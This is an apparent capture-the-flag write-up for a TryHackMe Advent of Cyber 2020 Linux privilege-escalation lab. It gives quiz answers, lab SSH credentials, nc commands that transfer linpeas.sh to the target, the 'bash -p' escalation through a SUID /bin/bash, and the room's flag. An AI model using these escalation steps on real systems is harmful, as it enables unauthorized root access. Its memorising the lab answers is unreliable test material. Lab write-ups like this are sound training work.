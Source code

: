 # IP=10.10.149.218


### [Day 11] Networking - The Rogue Gnome ###

1. What type of privilege escalation involves using a user account to execute commands as an administrator?

```
vertical
```

2. What is the name of the file that contains a list of users who are a part of the sudo group?

```
sudoers
```

3. Use SSH to log in to the vulnerable machine like so: `ssh cmnatic@$IP`. Input the following password when promted: `aoc2020`.

	* Command: `ssh cmnatic@$IP` + `aoc2020`

4. Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of GTFObins and your researching skills to learn how to exploit this binary.

	* Notes:
		* Using linpeas.sh to enumerate.
		* Found the `/bin/bash` has root SUID permission. This means that running `/bin/bash` as any user will force the system to run it as root.

	* Commands:
		* Download linpeas.sh onto victim:
			* Local: `nc -w 3 $IP 1337 < linpeas.sh`
			* Victim: `nc -lp 1337 > linpeas.sh`
		* Change linpeas to executable: `chmod +x linpeas.sh`
		* Run linpeas: `./linpeas.sh | tee linpeas.log`

5. What are the contents of the file located at /root/flag.txt?

	* Notes:
		* After enumerating the server using linpeas, I found a vulnerabilty with /bin/bash.
		* Looked at GTFOBins for any exploitations using /bin/bash to get root priviledges.
			* https://gtfobins.github.io/gtfobins/bash/

	* Commands:
		* Escalate to root: `bash -p`

	* Answer:
	```
	thm{2fb10afe933296592}
	```
